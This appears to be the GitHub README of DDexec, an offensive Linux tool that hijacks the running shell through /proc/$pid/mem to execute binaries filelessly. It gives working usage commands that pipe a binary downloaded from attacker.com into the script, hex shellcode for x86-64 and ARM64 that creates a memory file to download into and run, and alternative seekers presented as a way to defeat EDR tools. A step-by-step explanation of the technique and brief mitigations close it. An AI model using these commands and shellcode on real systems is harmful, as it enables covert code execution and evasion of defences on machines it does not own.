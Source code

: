 # DDexec news
I have updated DDexec so much it is barely recognizable, the parsing of the ELF is now done by machine code instead of by the shell script, making it far faster, reliable and comprehensible. It has also reduced its number of dependencies to the absolute minimum.

It also now barely depends on the shell's arithmetic, [which may make it work on Android](https://github.com/arget13/DDexec/issues/13).

## Context
In Linux in order to run a program it must exist as a file, it must be accessible in some way through the file system hierarchy (this is just how `execve()` works). This file may reside on disk or in ram (tmpfs, memfd) but you need a filepath. This has made very easy to control what is run on a Linux system, it makes easy to detect threats and attacker's tools or to prevent them from trying to execute anything of theirs at all (_e. g._ not allowing unprivileged users to place executable files anywhere).

Well, if you cannot start the process you want... then you hijack and torture one already existing until it pleases your desires.

## Usage
Pipe into the `ddexec.sh` script the binary you want to run. The arguments for the script are the arguments for the program (starting with `argv[0]`).

Here, try this:
```
bash ddexec.sh ls -lA < /bin/ls
```
which is easily weaponizable with something like
```
wget -O- https://attacker.com/binary.elf | bash ddexec.sh argv0 foo bar
```

There is also the `ddsc.sh` script that allows you to run machine code directly.
The following is an example of the use of a shellcode that will create a memfd (a file descriptor pointing to a file in memory) to which we can later write binaries and run them, from memory obviously.
```
bash ddsc.sh -x <<< "68444541444889e74831f64889f0b401b03f0f054889c7b04d0f05b0220f05" &
cd /proc/$!/fd
wget -O 4 https://attacker.com/binary.elf
./4
```
In ARM64 the process is the same.
```
bash ddsc.sh -x <<< "802888d2a088a8f2e00f1ff8e0030091210001cae82280d2010000d4c80580d2010000d4881580d2010000d4610280d2281080d2010000d4"
```

Tested Linux distributions are Debian, Alpine and Arch. Supported shells are bash, zsh and ash (busybox); on x86_64 and aarch64 (arm64) architectures.

### EverythingExec
As of 12/12/2022 I have found a number of alternatives to `dd`, one of which, `tail`, is currently the default program used to `lseek()` through the `mem` file (which was the sole purpose for using `dd`). Said alternatives are:
```
tail
hexdump
cmp
xxd
```

Setting the variable `SEEKER` you may change the seeker used, *e. g.*:
```
SEEKER=cmp bash ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```

If you find another valid seeker not implemented in the script you may still use it setting the `SEEKER_ARGS` variable:
```
SEEKER=xxd SEEKER_ARGS='-s $offset' zsh ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```
Block this, EDRs.

## Dependencies
This script depends on the following tools to work.
```
bash | zsh | ash (busybox)
tail | dd | hexdump | cmp | xxd | any other program that allows us to seek through a fd
```
**In the case of ash**, tail, dd, hexdump, cmp and xxd are built-ins, so they aren't actually a dependency.

Note: It only works on modern versions of busybox, not sure of the oldest version, haven't looked it up. I know it works on v1.35.0, but it doesn't on v1.30.0.

## The technique
If you are able to modify arbitrarily the memory of a process then you can take over it. This can be used to hijack an already existing process and replace it with another program. We can achieve this either by using the `ptrace()` syscall (which requires you to have the ability to execute syscalls or to have gdb available on the system) or, more interestingly, writing to `/proc/$pid/mem`.

The file `/proc/$pid/mem` is a one-to-one mapping of the userland's address space of a process (_e. g._ from `0x0` to `0x7ffffffffffff000` in x86-64). This means that reading from or writing to this file at an offset `x` is the same as reading from or modifying the contents at the virtual address `x`.

Now, we have three basic problems to face:
- In general, only root and the program owner of the file may modify it.
- ASLR.
- If we try to read or write to an address not mapped in the address space of the program we will get an I/O error.

But we have clever solutions:
- Most shell interpreters allow the creation of file descriptors that will then be inherited by child processes. We can create a fd pointing to the `mem` file of the sell with write permissions... so child processes that use that fd will be able to modify the shell's memory.
- ASLR isn't even a problem, we can check the shell's `maps` file from the procfs in order to gain information about the address layout of the process.
- So we need to `lseek()` over the file. From the shell this can be done using a few common binaries, like `tail` or the infamous `dd`, see the *EverythingExec* section for more information.

### In more detail
The steps are relatively easy and do not require any kind of expertise to understand them:
* Obtain from `/proc/$pid/syscall` the address the process will return to after the syscall it is currently executing —since we are reading this file said syscall will be read(), and the address will be in the read() wrapper of the libc. This is just to get a place where our stager will be found shortly.
* Overwrite that place, which will be executable, with a stager (through `mem` we can modify unwritable pages). Said stager will read and execute a larger shellcode.
* This shellcode will, broadly speaking, perform the same steps that the kernel does upon each call to `execve()`:
    * Parse the binary, find what loader it needs, and the mappings they both need.
    * Create the mappings they need.
    * Read the binaries into them.
    * Set up permissions.
    * Finally initialize the stack with the arguments for the program and place the auxiliary vector (needed by the loader).
    * Jump into the loader and let it do the rest (load and link libraries needed by the program).

The shellcode has been generated by compiling loader.c, and tweaking its assembly to remove and simplify lots of artifacts introduced by the compiler.

## Contribute
Well, there are a couple of TODOs. Besides this, you may have noticed that I do not know much about shell scripting (I am more of a C programmer myself) and I am sure I must have won a decade worth of ["useless use of a cat"](https://porkmail.org/era/unix/award.html) awards —no cats were harmed in the making of this tool— and the rest of variants just with a fraction of this project.

— Port to other shells —in the limit we should make the script POSIX compliant.
- Allow to run the program with a non-empty environment.
- Load also in a fileless manner the loader for the program, in case it isn't on the target system (it may be a distribution with musl, for example, like alpine).
- And also allow to load (filelessly, of course) from another source the libraries needed, in case they aren't on the system (it may even be distroless and not have any library at all). For this, [memdlopen](https://github.com/arget13/memdlopen/) is probably the way.
- ddsc.sh needs a bit of an update.

Anyway, feel free to fork and PR. But please, when contributing take into account that PRs that make it not work on the supported shells will not be accepted, that is not contributing, that is just breaking stuff. It would be best if your changes are POSIX compliant.

Just... please, please, _please_, check your code and see if it does work on the supported shells at least on Debian and Alpine. It's just a couple of dockers.

## Credit
After publishing this tool I came to know that [Sektor7](https://www.sektor7.net) had already [published](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md) this almost-exact same technique on their blog a few years ago.

Despite this, I thought this technique independently in, now almost, its entirety. Probably the smarter piece of this technique is the use of the inherited file descriptor, idea [provided](https://twitter.com/David3141593/status/1386661837073174532) by [David Buchanan](https://github.com/DavidBuchanan314) (inspired by Sektor7's blog) almost a year before I even started thinking about this topic. This alone not only makes the technique much simpler and neat, it also makes it far deadlier by eliminating the need to disable ASLR.

Either way, I hope I will be able to spread this technique much further, which is what matters.

I would like to thank [Carlos Polop](https://github.com/carlospolop), a great pentester and better friend, for making me think about this subject, and for his helpful feedback and interest, oh and I also owe him the name of the project. I am sure that if you are reading this you have already used his awesome tool [PEASS](https://github.com/carlospolop/PEASS-ng) and found helpful some article in his book [HackTricks](https://book.hacktricks.xyz).

## Now what?
You may:
- Go distroless. Well, in [certain scenarios](https://github.com/arget13/memexec/) it may not protect you at all.
- Use a kernel compiled without support for the `mem` file.
- Don't mount procfs.

## Questions? Death threats?
You can reach me through [Twitter](https://twitter.com/arget1313).
